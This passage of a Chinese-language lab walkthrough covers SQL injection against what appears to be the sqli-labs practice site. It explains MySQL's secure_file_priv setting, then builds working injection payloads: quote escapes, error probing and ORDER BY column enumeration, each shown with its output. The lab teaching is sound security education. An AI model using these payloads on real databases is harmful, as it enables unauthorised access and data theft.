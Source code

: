 ### §1.2.7 MySQL的`secure_file_priv`参数

根据[官方文档](en/server-system-variables.html#sysvar_secure_file_priv)，`secure_file_priv`是一个系统级的全局变量，负责控制SQL语句与文件系统交互的权限：

> - `secure_file_priv`
>
>   `secure_file_priv` 的取值有以下情形
>
>   - 如果为空字符串，则该变量无效（可以任意导入导出），风险很高。
>   - 如果为一个目录的路径，则只允许向该目录导入导出。该目录必须预先存在，MySQL不负责创建目录。
>   - 如果为`NULL`，则禁止所有导入导出。

这一变量影响`select ... into outfile/dumpfile`、`load_data()`、`load_file()`等函数。





## §1.3 题解

### §1.3.1 第1关 绕过`''`

我们以这行代码入手：

```php
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

显然，`$id`中若含有单引号便可实现逃逸的效果，比如最经典的`1' or '1'='1`。

了解后，我们假装不知道源代码，开始逐步构建payload，猜测语句结构。

首先试一下正常输入，均正常：

```sql
id=1		-- Login name: Dumb		Password: Dumb
id=2		-- Login name: Angelina	Password: I-kill-you
id=1000		-- Login name: 			Password:
```

尝试单引号，报错；尝试两个单引号，正常。可以猜测语句中肯定包含单引号。同时`LIMIT`告诉我们最多输出一条结果。

```sql
id=1		-- Login name: Dumb		Password: Dumb
id=1'		-- You have an error in your SQL syntax; ... near ''1'' LIMIT 0,1' at line 1
id=1''		-- Login name: Dumb		Password: Dumb
```

知道语句包含单引号后，我们就可以猜测语句大概如下所示：

```sql
SELECT ? FROM ? WHERE ?='$id' LIMIT 0,1 ? ;
```

接下来使用`ORDER BY`爆列数，同时使用`--`注释掉`LIMIT`语句，得到列数为3：

```sql
id=1 ORDER BY 1 --  (一定要在--后面加空格,才能识别为有效的注释)
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 1 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 1;
			-- Login name: Dumb		Password: Dumb
id=1‘ ORDER BY 2 -- 
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 2 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 2;
			-- Login name: Dumb		Password: Dumb
id=1‘ ORDER BY 3 -- 
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 3 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 3;
			-- Login name: Dumb		Password: Dumb
id=1‘ ORDER BY 4 -- 
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 4 --   ' LIMIT 0,1 ? ;
```